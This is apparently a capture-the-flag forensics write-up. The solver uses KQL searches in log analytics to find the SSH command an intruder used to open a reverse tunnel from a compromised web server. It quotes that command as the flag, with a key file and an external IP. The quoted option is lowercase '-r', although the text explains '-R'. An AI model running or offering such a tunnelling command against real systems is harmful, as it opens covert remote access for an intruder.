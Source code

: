 # Welcome!
> Okay. Let's recap. The web server somehow got exploited, and a webshell was uploaded. The webshell allowed for commands to be executed. A reverse-shell was launched. A gitlab user was created. The gitlab user created a malicious pipeline.

> Using this search in analytics>discover: host.hostname :"Rezifp-GitLab-Server" and gitlab.meta.remote_ip:10.0.0.5 and gitlab.ua:* And going into the "field statistics" tab, we can see that there are two user agents: curl and firefox, that made queries to our gitlab from the web server. However, firefox is not installed on the web server. There must be a tunnel/socks proxy that was created. Find the command line that created that tunnel.

> Flag format: <commandline>

> Example: ./tunnelcreator create tunnel --awesome

## About the Challenge
We need to find the command that created the tunnel/socks proxy

## How to Solve?
Im using this KQL syntax because I want to find the command that related to SSH and the `-R` option is used to set up a reverse port forwarding, also known as remote port forwarding. It allows connections from the remote SSH server to be forwarded to a local machine or a different machine on the client's network.

```
"ssh" and "-R"
```

And then find `proccess.command_line` in the `Search Field` form

![flag](images/flag.png)

```
ssh -i /tmp/key -r 8080 rezifp-admin@158.69.62.65
```